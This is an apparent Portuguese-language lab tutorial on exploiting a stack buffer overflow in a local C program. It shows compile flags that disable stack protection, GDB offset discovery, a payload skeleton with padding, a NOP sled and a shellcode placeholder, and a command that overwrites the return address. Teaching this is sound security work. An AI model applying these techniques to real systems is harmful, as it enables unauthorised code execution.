 Buffer Overflow - Exploração de Vulnerabilidades

---

Introdução:
ocorre quando um programa escreve dados além dos limites de um buffer, sobrescrevendo áreas adjacentes da memória. Esse comportamento pode ser explorado para modificar o fluxo de execução do programa e, em alguns casos, obter controle total sobre o sistema.

---

Configuração do Ambiente
Antes de iniciar, certifique-se de estar em um ambiente Linux com as ferramentas necessárias instaladas:

- **GCC** (Compilador de C)
- **GDB** (Depurador GNU)
- **Python** (para geração de payloads)
- **objdump** (para análise de binários)

Caso algum desses pacotes não esteja instalado, use:
```bash
sudo apt update && sudo apt install gcc gdb python3 binutils -y
```

---

Passo a Passo da Exploração

### 1️⃣ Compilação do Programa
Compile o código vulnerável desativando proteções de pilha para facilitar a exploração:
```bash
gcc -fno-stack-protector -z execstack -o vulneravel vulneravel.c
```
- `-fno-stack-protector`: Desativa a proteção de pilha do compilador.
- `-z execstack`: Permite execução de código na pilha.

### 2️⃣ Análise do Programa
Use um depurador para identificar padrões e vulnerabilidades:
```bash
gdb ./vulneravel
```
No GDB, analise a disposição da pilha e descubra o endereço de retorno:
```gdb
run $(python3 -c 'print("A"*200)')
info frame
```
Isso ajudará a determinar quantos bytes são necessários para sobrescrever o endereço de retorno.

### 3️⃣ Criação do Payload
Crie um payload que sobrescreva o endereço de retorno e redirecione a execução para um shellcode. Exemplo em Python:
```python
payload = b"A" * 140  # Preenchimento até o endereço de retorno
payload += b"\x90" * 16  # NOP Sled
payload += b"<shellcode>"  # Código malicioso
```
Substitua `<shellcode>` por um código adequado, como um shell `/bin/sh`.

### 4️⃣ Execução do Ataque
Passe o payload como argumento para explorar a vulnerabilidade:
```bash
./vulneravel $(python3 -c 'print("A"*140 + "\xef\xbe\xad\xde")')
```
Se bem-sucedido, isso pode conceder uma shell interativa ao atacante.

---
